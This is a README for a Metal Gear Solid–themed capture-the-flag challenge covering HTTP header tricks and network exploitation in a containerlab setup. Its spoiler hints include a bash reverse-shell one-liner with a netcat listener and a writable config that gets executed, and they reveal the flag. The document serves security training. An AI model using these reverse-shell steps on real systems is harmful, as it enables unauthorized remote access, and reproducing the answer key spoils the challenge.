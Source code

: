 # Metal Gear Solid CTF Challenge

<p align="center">
  <img style="width: 50%;" src="https://github.com/user-attachments/assets/d4d2d537-c7ff-4a13-ad0b-1d2f1ce057c9"></img>
</p>

## Difficulty rating 
![stars](https://starrating-beta.vercel.app/3/) *100 points*
\
Requires solid HTTP fundamentals, bash/netcat familiarity, header manipulation, log parsing, and basic reverse shell crafting. Also, the hints are quite vague

### **Description**
An infiltration-themed web and network CTF challenge where participants navigate a network to uncover a patriots passkey. Exploit HTTP, the shell and misconfigured requests to retrieve hints and find the flag.
Requires understanding of HTTP headers, web requests, log analysis, base64 encoding, reverse shells, and  TCP networking + tools like curl, nmap, and netcat.
\
\
**Catagory:**
Web Exploitation / Network Services

### **How to run**

#### Requirements
- [docker](https://www.docker.com/)  > 28.1.1
- [containerlabs](https://containerlab.dev/) > 0.68.0

In the projects root directory, run:
```
sudo containerlab deploy --topo topology.yml
```
to destroy:
```
sudo containerlab destroy --topo topology.yml
```

<br>

> [!IMPORTANT]
> the loadbalancer is exposed on port 8080. Depending on if your running this inside a VM or wsl, you may have to use the ip of that followed by :8080

> [!NOTE]
> It may take a while to load and you may recieve 503 errors for the first 20 seconds depending on your internet and pc

### Hints
<details>
<summary>Hint 1: first curls</summary>
<br>
Curl each webserver individually. Correct the typo in S3cr3t/paslyword to secret/password. Find a way to show the response headers in curl when you curl with `Accept: application/secret`
</details>

<details>
<summary>Hint 2: after you've done the web3 challenge</summary>

Combine everything together, /top/secret/password?condition=trust with  `Accept: application/secret`. This is valid on any webserver
</details>

<details>
<summary>Hint 3: once ssh'd in</summary>
<br>
find / -name "*json" 2> /dev/null. The update property has echo in its string, suggesting its executing it. Use a reverse shell and net cat to establish connectiion
</details>

<details>
<summary>Hint 3: continued</summary>
<br>
bash -i >& /dev/tcp/web3/1337 0>&1 then after saving the file: nc -lvnp 1337 
</details>

<details>
<summary>Flag:</summary>
<br>
flag{PATRIOT_PASS} 
</details>

## How to solve
This video has audio and is in 1.5x speed

If you prefer, follow this [markdown file](https://github.com/0xlukaC/metal-gear-ctf/blob/main/Walkthrough.md)

https://github.com/user-attachments/assets/14aa9844-b534-4b56-a318-14a6dd87ef13


